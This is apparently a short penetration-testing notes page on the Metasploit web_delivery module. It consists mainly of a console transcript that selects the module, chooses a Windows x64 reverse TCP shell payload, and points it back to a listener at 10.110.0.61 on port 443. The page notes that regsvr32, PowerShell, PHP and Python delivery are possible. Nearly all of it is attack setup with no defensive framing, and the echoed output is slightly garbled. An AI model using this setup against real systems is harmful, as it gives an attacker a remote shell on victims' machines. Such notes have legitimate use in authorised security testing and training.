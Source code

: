# Web Delivery

## Web Delivery 

{% hint style="warning" %}
## can be used with RegSrv32.exe and other
{% endhint %}

Set target can be php, regsrv32, powershell, python ...

```csharp
msf5 exploit(multi/script/web_delivery) > use exploit/multi/script/web_delivery \ 
 > Interrupt: use the 'exit' command to quit                                                                                                                 
msf5 exploit(multi/script/web_delivery) > use exploit/multi/script/web_delivery  
msf5 exploit(multi/script/web_delivery) > set target 2                             
target => 2                            
msf5 exploit(multi/script/web_delivery) > set payload windows/x64/shell/reverse_tcp
payload => set payload windows/x64/shell/reverse_tcp                                                                                                                  
msf5 exploit(multi/script/web_delivery) > set LHOST 10.110.0.61                    
LHOST => 10.110.0.61                                                          
msf5 exploit(multi/script/web_delivery) > set lport 443                            
lport => 443  
```



